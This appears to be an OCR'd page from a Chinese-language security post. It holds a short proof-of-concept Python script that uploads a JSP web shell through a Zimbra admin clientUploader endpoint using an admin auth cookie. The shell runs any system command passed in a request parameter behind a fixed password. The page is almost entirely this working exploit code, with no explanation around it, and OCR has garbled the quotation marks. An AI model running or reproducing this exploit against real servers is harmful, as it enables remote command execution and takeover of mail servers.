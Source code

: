 ![image](../img/3271f5c5d5259c08d367b2d15ac432c7.png)

**简易poc**

```
import requests `file= {

‘filename1’:(None,“whocare”,None),

‘clientFile’:(“sunian.jsp”,r’<%if(“023”.equals(request.getParameter(“pwd”))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter(“i”)).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>’,“text/plain”),

‘requestId’:(None,“12”,None),

}

headers ={

“Cookie”:“ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b”,#改成自己的admin_token

“Host”:“foo:7071”

}

r=requests.post(“[https://192.168.37.137:7071/service/extension/clientUploader/upload](https://192.168.37.137:7071/service/extension/clientUploader/upload)”,files=file,headers=headers,verify=False)

print(r.text)` 
```

![2.png](../img/d2f468ed1b2120f405e0a506089b4940.png)
